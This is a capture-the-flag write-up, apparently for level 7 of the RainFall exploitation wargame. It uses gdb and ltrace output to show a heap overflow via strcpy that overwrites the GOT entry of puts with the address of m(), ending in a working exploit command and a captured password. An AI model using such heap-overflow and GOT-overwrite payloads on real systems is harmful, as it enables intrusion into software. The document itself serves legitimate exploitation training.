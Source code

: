 # Level 7

we want to call `m()` to print the password read into the global variable `c`

```shell
level7@RainFall:~$ gdb -q ./level7 
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```
`0x08049928` value of puts in GOT
`0x080484f4` value of m

By running `ltrace` we see that we can change the destination address of the second strcpy call:
```shell
level7@RainFall:~$ ltrace ./level7 "ARGV1" "ARGV2"
__libc_start_main(0x8048521, 3, 0xbffff6e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "ARGV1")                              = 0x0804a018
strcpy(0x0804a038, "ARGV2")                              = 0x0804a038
fopen("/home/user/level8/.pass", "r")                    = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') "ARGV2"
__libc_start_main(0x8048521, 3, 0xbffff6d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b")    = 0x0804a018
strcpy(0x08049928, "ARGV2")                              = 0x08049928
fopen("/home/user/level8/.pass", "r")                    = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

We see here that if we can succesfully overwrite the value in b[1] with our argv[1], we can then write to that address in b[1].
So we can use it to overwrite the Global Offset Table value of `puts` with the address of `m`.
```shell
level7@RainFall:~$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')                        

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668625280
```

